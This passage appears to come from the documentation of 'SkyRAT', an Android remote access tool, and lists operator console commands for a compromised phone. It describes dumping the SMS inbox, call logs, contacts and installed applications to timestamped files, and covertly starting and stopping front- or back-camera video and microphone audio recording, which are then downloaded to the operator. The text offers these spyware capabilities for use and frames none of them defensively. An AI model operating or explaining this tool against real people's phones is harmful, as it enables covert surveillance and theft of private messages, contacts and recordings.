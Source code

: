 #### **Data Export Examples**
All extracted data is automatically saved to timestamped files:
```bash
dumps/
├── inbox_SMS_20240315-143022.txt
├── Call_Logs_20240315-143045.txt
├── Contacts_20240315-143123.txt
└── Applications_20240315-143156.txt
```

### **Audio & Video Recording**

#### **Camera Operations**
```bash
SkyRAT:/> camList
# List available cameras (front/back)

SkyRAT:/> startVideo 0
# Start video recording with back camera (camera 0)

SkyRAT:/> startVideo 1  
# Start video recording with front camera (camera 1)

SkyRAT:/> stopVideo
# Stop video recording and download
```

#### **Audio Recording**
```bash
SkyRAT:/> startAudio
# Start audio recording

SkyRAT:/> stopAudio
# Stop audio recording and download
```

#### **Recording Examples**
```bash
# Record 30-second video
SkyRAT:/> startVideo 0
# Wait 30 seconds
SkyRAT:/> stopVideo

# Record audio sample
SkyRAT:/> startAudio  
# Wait for desired duration
SkyRAT:/> stopAudio
```

**Important Notes:**
- Video/audio commands take time to process
- Wait for confirmation before issuing next command
- Large files may take several minutes to download
